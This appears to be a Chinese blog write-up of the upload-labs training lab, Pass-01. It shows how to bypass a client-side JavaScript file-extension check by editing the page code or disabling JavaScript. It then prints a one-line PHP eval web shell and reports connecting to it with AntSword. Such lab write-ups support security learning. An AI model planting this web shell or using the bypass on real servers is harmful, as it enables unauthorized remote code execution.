 ```yaml
---
layout:    post
title:     upload-labs上
subtitle:  学习学习
date:      2020-12-30
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - upload-labs
---
```


### upload-labs 1~10

#### Pass-01(前端绕过)

首先直接上传图片发现正常上传成功，上传php文件，发现不允许上传该类型文件

[![rO1vWR.md.png](https://s3.ax1x.com/2020/12/30/rO1vWR.md.png)](https://imgchr.com/i/rO1vWR)

查看源码：

```
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

方法一：查看源码，修改前端代码。可以添加允许上传.php文件类型也可禁用js。

[![rOtnZ6.png](https://s3.ax1x.com/2020/12/30/rOtnZ6.png)](https://imgchr.com/i/rOtnZ6)

修改后即可上传``.php``文件。

```
<?php @eval($_POST['hhh']); ?>
```

用蚁剑连接测试成功：
